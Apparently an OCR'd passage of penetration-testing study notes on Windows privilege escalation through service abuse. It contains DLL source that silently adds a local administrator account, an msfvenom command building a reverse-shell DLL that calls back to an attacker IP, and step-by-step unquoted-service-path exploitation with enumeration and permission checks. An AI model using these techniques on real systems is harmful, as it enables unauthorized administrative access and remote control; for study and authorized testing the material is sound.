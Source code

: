 ```cpp
        int i;
  	    i = system ("net user ivan password123! /add");
  	    i = system ("net localgroup administrators ivan /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Cross-compile:
```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
Transfer the `myDLL.dll` to target, ensure there is no `ivan` user.
Then restart the service, DLL should then be loaded into the process.
Or can also generate a malicious `dll` reverse shell by msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.225 LPORT=443 -f dll -o EnterpriseServiceOptional.dll
```

### Unquoted Service path
Condition: Have Write permissions to a **service's main directory or subdirectories** but **cannot replace files** within them.
Eg. Start service `C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe`
The **order** to try to start the executable file **due to the spaces in the path:**
```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
Exploit: create a malicious executable -> place it in a directory that corresponds to **one of the interpreted paths**. (Usually, the first two options would require some unlikely permissions)
Enumerate all services:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
Find `unquoted service binary path` contains **multiple spaces**.
Or can use this command to find the unquoted service path(in cmd):
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
Next, check if we can start/stop the identified service as current user.
```powershell
Start-Service [ServiceName]
Stop-Service [ServiceName]
```
Then check if our user have (W)write permission.
```powershell
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```
Have (W) on `C:\Program Files\Enterprise Apps` ->  Upload malicious binary file as `C:\Program Files\Enterprise Apps\Current.exe` -> `Start-Service GammaService`
### Automation of Service abuse
Using `PowerUp.ps1`:
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
```
